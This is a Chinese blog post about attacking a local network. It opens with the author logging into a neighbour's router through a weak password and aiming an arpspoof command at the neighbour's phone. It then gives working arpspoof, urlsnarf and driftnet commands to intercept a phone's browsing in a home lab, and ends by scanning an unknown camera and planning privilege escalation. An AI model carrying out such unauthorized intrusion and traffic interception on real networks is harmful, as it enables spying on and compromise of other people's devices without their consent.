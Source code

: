 ```yaml
---
title: 渗透之局域网攻击
date: 2020-09-22 14:32:30
tags:
	- 渗透

---
```


1

访问 192.168.1.1 直接连上了，竟然没有做一些限制，然后直接弱口令登陆进去了。看来隔壁家安全意识不高啊。

进去后台大致浏览了一遍，发现了连接的客户端，也没有静态ARP绑定设置，这样就可以玩ARP欺骗了。

这里用arpspoof工具来嗅探ip为192.168.1.145的荣耀V20
arpspoof -i eth0 -t 192.168.1.145 -r 192.168.1.1



搭建一个测试环境
路由器：树莓派搭建的openwrt。
攻击机：Ubuntu笔记本。
靶机：手机

到这里下载树莓派3b的openwrt镜像。才12M。

https://openwrt.org/toh/views/toh_fwdownload

需要用gunzip来解压，其他的解压工具都解压不了。

默认的用户名是**root**，默认的密码是**password**

To facilitate initial setup, you may choose to set OpenWRT to be a DHCP client instead of sever.

```
# uci set network.lan.proto=dhcp
# uci commit
# /etc/init.d/network restart
```

但是我这样改了后。树莓派还是没有获取到ip地址。

我有配置一个静态地址的。

```
uci set network.lan.ipaddr=172.16.2.180
uci commit
/etc/init.d/network restart
```

但是现在得到了一个地址172.16.2.209，可以ping通外网了。

不知道是不是跟我配置了route add default gw 172.16.2.254有关系。不是，我配置了dhcp。所以配置的静态地址就被忽略了。所以还是dhcp起作用了。不是，还是route设置起的作用。不然一直获取不到ip地址。

现在wifi没有启动。

https://forum.openwrt.org/t/raspberry-pi-3-b-no-wifi/22160

这里有提到一句：

You need to set the country code to start the WiFi, I have the same issue but cannot work out how to persist it.

需要设置国家代码。

这个是必须的。

找到解决方法了。

就是修改/etc/config/wireless。加上

```
option country 'CN'
```

注释掉：

```
#       option disabled '1'
```

再执行wifi up，就可以正常启动了。

但是手机连接热点获取不到ip地址。



```
uci show wireless
```

```
root@OpenWrt:~# wifi
'radio0' is disabled
'radio0' is disabled
```

树莓派暂时总是没法把wifi启动。

算了。我还是用过一个而普通的路由器先做实验。

我的笔记本是192.168.0.101.我的手机是192.168.0.102

路由器是192.168.0.1

在笔记本上执行：

```
sudo arpspoof -i wlan0 -t 192.168.0.102 -r 192.168.0.1
```

再开一个shell执行：这个是显示手机这种浏览的网站。

```
sudo urlsnarf -i wlan0
```

另外在Ubuntu的图形界面下的shell执行。

```
driftnet -i wlan0
```

driftnet会弹出一个图形界面窗口。正常的话，可以获取到手机正在浏览的一些图片。

但是实际效果是，很难获取到。

而且因为欺骗的影响，手机几乎无法正常访问网络。



局域网内有一个未知的设备，用nmap扫了一下，发现开了554和5555端口；上网搜了一下，这两个端口都能搞事，应该是一个智能摄像头。社工了一波可能是小米家的小方摄像头。

554端口下的rtsp服务是实时流传输协议，是用来传输视频的
5555端口是用来远程调试的

远程控制摄像头升级到指定版本。

接下来就是通过驱动来内核提权了，待我再研究一番来补上续集。



参考资料

1、局域网内的HTTP/HTTPS账号密码获取 实验

https://blog.csdn.net/qq_41453632/article/details/83690779

2、9.8 Arpspoof工具

https://wizardforcel.gitbooks.io/daxueba-kali-linux-tutorial/content/58.html

3、记一次家庭局域网渗透经历

https://nocbtm.github.io/2020/02/03/%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%AE%B6%E5%BA%AD%E5%B1%80%E5%9F%9F%E7%BD%91%E6%B8%97%E9%80%8F%E7%BB%8F%E5%8E%86/#ARP%E6%AC%BA%E9%AA%97

4、

https://www.freebuf.com/column/229643.html

5、OpenWRT on Raspberry Pi 3B/3B+

https://openwrt.org/toh/raspberry_pi_foundation/raspberry_pi